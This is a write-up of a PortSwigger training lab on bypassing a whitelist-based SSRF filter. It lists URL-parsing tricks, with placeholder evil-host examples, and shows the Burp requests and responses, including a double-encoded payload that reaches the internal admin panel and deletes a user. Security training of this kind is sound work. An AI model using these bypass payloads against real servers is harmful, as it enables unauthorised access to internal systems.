 ## SSRF with whitelist-based input filter

**Title:** SSRF with whitelist-based input filter. [Go](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`. The developer has deployed an anti-SSRF defense you will need to bypass.
 
## Preface

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

- You can embed credentials in a URL before the hostname, using the @ character. For example: `https://expected-host:fakepassword@evil-host`

- You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

We intercepted "Check stock" request in Burp Suite, and sent it to Burp Repeater. Then changed the URL in the `stockApi` parameter to `http://127.0.0.1/` and observed that the application is parsing the URL, extracting the hostname, and validating it against a whitelist. Changeing the URL to `http://username@stock.weliketoshop.net/` and observed that this is accepted, indicating that the URL parser supports embedded credentials. 

**Request**
``` HTTP
POST /product/stock HTTP/2
Host: 0abc0062030d8613853e496b006700b2.web-security-academy.net
Cookie: session=AiZ7HiI6baDiI1ttqxpnNXSf8aiHuFws
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abc0062030d8613853e496b006700b2.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0abc0062030d8613853e496b006700b2.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://127.0.0.1/&productId=3&storeId=1
```

**Response**
``` HTTP
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"
```
After appending a `#` to the username and we observed that the URL is now rejected. Double-URL encode the `#` to %2523 and observed the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username". To access the admin interface and delete the target user, we changed the URL to:
`http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

**Request**
``` HTTP
POST /product/stock HTTP/2
Host: 0abc0062030d8613853e496b006700b2.web-security-academy.net
Cookie: session=AiZ7HiI6baDiI1ttqxpnNXSf8aiHuFws
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abc0062030d8613853e496b006700b2.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0abc0062030d8613853e496b006700b2.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos&productId=3&storeId=1
```

**Response**
``` HTTP
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=CfrgelNh7DsoHLUtJiLhldj53qjrc9kj; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
